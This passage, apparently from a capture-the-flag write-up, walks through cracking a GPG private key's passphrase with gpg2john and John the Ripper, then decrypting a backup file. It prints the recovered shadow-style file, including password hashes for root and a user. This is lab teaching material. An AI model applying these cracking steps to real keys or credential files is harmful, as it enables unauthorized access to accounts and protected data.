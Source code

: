 Now that these files are on our device, let's play around with them. First, we are going to want to import the `private.asc` using the `gpg` command line utility:

```
gpg --import private.asc
```

This file is a private key that will allow us to decrypt the `backup.pgp` file. We have to import it to our keyring to be able to play round with it. However, when we try to run this command, we are prompted for a password. Since we don't have one, we will have to try another approach. Luckily, John The Ripper has a module that can pull a hash from this file that we can crack. We can do this with the following syntax:

```
gpg2john private.asc > hash.txt
```

We have the hash, now let's crack it with John The Ripper:

```
john --format=gpg hash.txt -w /usr/share/wordlists/rockyou.txt
```

Now that we have the password, let's use `gpg` again to attempt to decrypt the `backup.pgp` file:
```
gpg --output decrypted.txt --decrypt backup.pgp
```

When we `cat` the contents of `decrypted.txt`, we are shown the following:
```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::
```
